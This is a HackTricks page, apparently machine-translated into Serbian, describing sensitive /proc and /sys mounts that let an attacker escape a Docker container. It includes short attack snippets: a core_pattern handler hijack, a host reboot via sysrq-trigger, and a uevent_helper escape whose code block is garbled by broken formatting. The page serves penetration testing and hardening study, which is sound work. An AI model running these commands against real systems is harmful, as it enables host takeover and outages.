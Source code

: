 # Sensitive Mounts

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Izlaganje `/proc` i `/sys` bez odgovarajuće izolacije prostora imena uvodi značajne bezbednosne rizike, uključujući povećanje napadačke površine i otkrivanje informacija. Ove direktorijume sadrže osetljive datoteke koje, ako su pogrešno konfigurisane ili pristupaju im neovlašćeni korisnici, mogu dovesti do bekstva iz kontejnera, modifikacije hosta ili pružiti informacije koje pomažu daljim napadima. Na primer, pogrešno montiranje `-v /proc:/host/proc` može zaobići AppArmor zaštitu zbog svoje putanje, ostavljajući `/host/proc` nezaštićenim.

**Možete pronaći dodatne detalje o svakoj potencijalnoj ranjivosti u** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

Ovaj direktorijum omogućava pristup za modifikaciju kernel varijabli, obično putem `sysctl(2)`, i sadrži nekoliko poddirektorijuma od značaja:

#### **`/proc/sys/kernel/core_pattern`**

* Opisano u [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Omogućava definisanje programa koji će se izvršiti prilikom generisanja core datoteke sa prva 128 bajtova kao argumentima. Ovo može dovesti do izvršavanja koda ako datoteka počinje sa cevom `|`.
*   **Primer testiranja i eksploatacije**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

#### **`/proc/sys/kernel/modprobe`**

* Detaljno opisano u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Sadrži putanju do učitavača kernel modula, pozvanog za učitavanje kernel modula.
*   **Primer provere pristupa**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Pomenuto u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Globalna zastavica koja kontroliše da li kernel panici ili poziva OOM killer kada dođe do OOM uslova.

#### **`/proc/sys/fs`**

* Prema [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), sadrži opcije i informacije o datotečnom sistemu.
* Pristup za pisanje može omogućiti razne napade uskraćivanja usluge protiv hosta.

#### **`/proc/sys/fs/binfmt_misc`**

* Omogućava registraciju interpretera za nenativne binarne formate na osnovu njihovog magičnog broja.
* Može dovesti do eskalacije privilegija ili pristupa root shell-u ako je `/proc/sys/fs/binfmt_misc/register` zapisiv.
* Relevantna eksploatacija i objašnjenje:
* [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Detaljan tutorijal: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

* Može otkriti konfiguraciju kernela ako je `CONFIG_IKCONFIG_PROC` omogućeno.
* Korisno za napadače da identifikuju ranjivosti u pokrenutom kernelu.

#### **`/proc/sysrq-trigger`**

* Omogućava pozivanje Sysrq komandi, potencijalno uzrokujući trenutne restartove sistema ili druge kritične akcije.
*   **Primer restartovanja hosta**:

```bash
echo b > /proc/sysrq-trigger # Reboots the host
```

#### **`/proc/kmsg`**

* Izlaže poruke iz kernel ring bafera.
* Može pomoći u kernel eksploatacijama, curenjima adresa i pružiti osetljive sistemske informacije.

#### **`/proc/kallsyms`**

* Lista kernel izvezene simbole i njihove adrese.
* Osnovno za razvoj kernel eksploatacija, posebno za prevazilaženje KASLR-a.
* Informacije o adresama su ograničene sa `kptr_restrict` postavljenim na `1` ili `2`.
* Detalji u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfejs sa kernel memorijskim uređajem `/dev/mem`.
* Istorijski ranjiv na napade eskalacije privilegija.
* Više o [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Predstavlja fizičku memoriju sistema u ELF core formatu.
* Čitanje može otkriti sadržaj memorije host sistema i drugih kontejnera.
* Velika veličina datoteke može dovesti do problema sa čitanjem ili padom softvera.
* Detaljna upotreba u [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternativni interfejs za `/dev/kmem`, predstavlja kernel virtuelnu memoriju.
* Omogućava čitanje i pisanje, što znači direktnu modifikaciju kernel memorije.

#### **`/proc/mem`**

* Alternativni interfejs za `/dev/mem`, predstavlja fizičku memoriju.
* Omogućava čitanje i pisanje, modifikacija sve memorije zahteva rešavanje virtuelnih do fizičkih adresa.

#### **`/proc/sched_debug`**

* Vraća informacije o rasporedu procesa, zaobilazeći PID prostor zaštite.
* Izlaže imena procesa, ID-eve i cgroup identifikatore.

#### **`/proc/[pid]/mountinfo`**

* Pruža informacije o tačkama montiranja u prostoru montiranja procesa.
* Izlaže lokaciju kontejnera `rootfs` ili slike.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

* Koristi se za rukovanje kernel uređaj `uevents`.
* Pisanje u `/sys/kernel/uevent_helper` može izvršiti proizvoljne skripte prilikom `uevent` okidača.
*   **Primer za eksploataciju**: %%%bash

#### Kreira payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Pronalazi putanju hosta iz OverlayFS montiranja za kontejner

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

#### Postavlja uevent\_helper na maliciozni helper

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

#### Okida uevent

echo change > /sys/class/mem/null/uevent

#### Čita izlaz

cat /output %%%

#### **`/sys/class/thermal`**

* Kontroliše postavke temperature, potencijalno uzrokujući DoS napade ili fizičku štetu.

#### **`/sys/kernel/vmcoreinfo`**

* Curi kernel adrese, potencijalno kompromitujući KASLR.

#### **`/sys/kernel/security`**

* Sadrži `securityfs` interfejs, omogućavajući konfiguraciju Linux Security Modules kao što je AppArmor.
* Pristup može omogućiti kontejneru da onemogući svoj MAC sistem.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

* Izlaže interfejse za interakciju sa EFI varijablama u NVRAM-u.
* Pogrešna konfiguracija ili eksploatacija može dovesti do "brick" laptopa ili nebootabilnih host mašina.

#### **`/sys/kernel/debug`**

* `debugfs` nudi "bez pravila" interfejs za debagovanje kernela.
* Istorija bezbednosnih problema zbog svoje neograničene prirode.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
